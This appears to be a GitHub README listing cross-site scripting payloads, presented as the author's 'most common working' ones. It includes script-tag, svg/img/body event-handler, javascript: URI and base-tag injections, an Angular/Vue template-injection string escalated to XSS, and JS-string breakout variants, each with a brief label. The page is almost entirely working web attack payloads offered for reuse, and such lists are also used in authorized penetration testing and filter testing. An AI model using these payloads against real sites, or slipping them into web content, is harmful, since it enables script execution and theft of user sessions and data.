 <h1> 🚀Most Common Working Payloads </h1>
<h2> This is list of XSS Payloads that worked in most cases for me </h2>

<h4>
```html "><svg/onload=alert(1)>``` - Length bypass Svg Payload </br>
```html "><script>alert(1)</script>``` - Basic XSS Payload with script tag </br>
```html <div onmouseover="alert(document.domain);">``` - Onmouseover XSS Payload </br>
```html <IMG SRC="javascript:alert('XSS');">``` - Image XSS Directive Payload </br>
```html </style><script>a=eval;b=alert;a(b(/XSS/.source));</script>``` - Style Special Combination </br>
```html "><img src=x onerror=alert(1)>``` - Typical Image XSS Payload </br>
```html {{constructor.constructor(`alert(1)`)()}}``` - This is technically CSTI, but it is escalated to XSS for better Impact. It works mostly on Angular/Vue Applications. You can explore more about Template Injections on Internet </br>
```html <BODY onload=alert(1)>``` - Body Payload </br>
```html <BASE HREF="javascript:alert('XSS');//">``` - XSS with Base Tag </br>
```html &apos;-alert(1)-&apos;``` - Injecting alert inside HTML tag + HTML Encoding </br>
```html <IMG SRC=javascript:alert(&quot;XSS&quot;)>``` - Image Payload with HTML Entities </br>
```'-alert(1)-'```
```\';alert(document.domain)//``` - Inject Alert inside JS String </br>
```javascript:alert(1)``` - Works in many ways and combination, also can help escalating Open Redirect to XSS </br>
```http://www.<script>alert(1)</script .com```
</h4>

<h2>by Kira Reys </h2>
